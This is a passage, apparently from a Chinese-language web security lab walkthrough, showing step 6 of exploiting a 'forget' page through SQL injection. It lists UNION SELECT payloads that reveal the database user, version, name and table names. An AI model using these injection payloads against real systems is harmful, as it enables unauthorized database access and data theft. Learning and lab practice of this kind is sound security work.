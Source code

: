 <img src="_media/web/7.png" />

### 数据库漏洞

6.返回forget，继续利用数据库查询语句，查询数据库的信息

``` 
'UNION SELECT USER() # 当前数据库用户

'UNION SELECT VERSION() # 数据库版本信息

'UNION SELECT DATABASE() # 数据库名称

' UNION SELECT table_name FROM information_schema.TABLES WHERE TABLE_SCHEMA = DATABASE() # 查询数据库表名
```

<img src="_media/web/13.png" />
